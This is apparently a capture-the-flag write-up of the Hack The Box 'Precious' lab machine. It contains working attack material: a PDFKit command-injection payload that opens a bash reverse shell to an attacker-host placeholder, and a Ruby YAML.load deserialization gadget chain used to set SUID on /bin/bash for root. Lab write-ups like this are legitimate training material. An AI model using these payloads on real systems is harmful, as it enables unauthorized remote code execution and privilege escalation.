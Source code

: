 ```yaml
---
title: Precious 
date: 2022-11-27 12:00:00
categories: [HTB,CTF]
tags: [htb]
---
```


# Enumeration

First let's add precious.htb to /etc/hosts

## Rustscan

```bash
mkdir rust; sudo rustscan -t 1500 -b 1500 --ulimit 65000 -a precious.htb -- -sV -sC -oA ./rust/{{ip}}
```

```bash
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 65000.
Open 10.129.77.196:22
Open 10.129.77.196:80

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0
|_http-title: Convert Web Page to PDF
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

| Port | Technology                |
| ---- | ------------------------- |
| 80   | NGINX + Phusion Passenger |

Phusion Passenger seems to be an extension to support various kinds of application type like ruby  
https://en.wikipedia.org/wiki/Phusion_Passenger

## Webpage

Visiting http://precious.htb will display a page that says "Convert Web Page to PDF".  
A quick check using a locally setup webserver showed that the page is exactly doing that.

Using Burp we check our requests and can identify that **Ruby** is used!

```http
HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Connection: close
Status: 200 OK
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Date: Sun, 27 Nov 2022 19:02:41 GMT
X-Powered-By: Phusion Passenger(R) 6.0.15
Server: nginx/1.18.0 + Phusion Passenger(R) 6.0.15
X-Runtime: Ruby
Content-Length: 506
```

## Dirsearch

Found nothing

## Feroxbuster

Also no results

# Exploitation

Searching for Ruby and HTML to PDF vulnerabilities will lead you to [PDFKIT - Command Injection](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

We'll use that POC to craft our payload and get a reverse shell  

**Payload**
```http
http://attacking.machine/?name=#{'%20`bash -c 'bash -i >& /dev/tcp/attacking-machine-ip/4000 0>&1'`'}
```

After submitting the malicious url on http://precious.htb we will receive a reverse shell as user `ruby`  

## Become User henry

In `/home/ruby/.bundle` is a file located that is called `config`.  In that file you will find the password of user `henry`

```yaml
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:CENSORED"
```

Become User `henry`

```bash
su - henry
```

# Escalation

## Local Enumeration

Always the first thing todo is to check for any sudo privileges

```bash
sudo -l
```

```bash
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Looks like we are allowed to update dependencies as root user. Smells like a ruby deserialization attack

**/opt/update_dependencies.rb**

Checking the file we are allowed to run will confirm my assumption. `YAML.load` is extremely unsafe and shouldn't be used according to [Ruby - YAML](https://ruby-doc.org/stdlib-2.5.1/libdoc/yaml/rdoc/YAML.html)

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

## Privilege Escalation

We will use a Universal RCE with Ruby YAML.load - [YAML.load - RCE](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/)

### dependencies.yaml

First we have to create the dependencies.yaml file in our current location and modify `git_set` to add suid on `/bin/bash`

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod +s /bin/bash
         method_id: :resolve
```

### Root

```bash
# Will throw some errors after execution
sudo /usr/bin/ruby /opt/update_dependencies.rb
# Check permissions on /bin/bash
ls -al /bin/bash
# -rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

```bash
# If bash has SUID bit set it does not drop the elevated privileges. So we will use that as planned 
/bin/bash -p
id
# uid=0(root) gid=0(root) groups=0(root)
```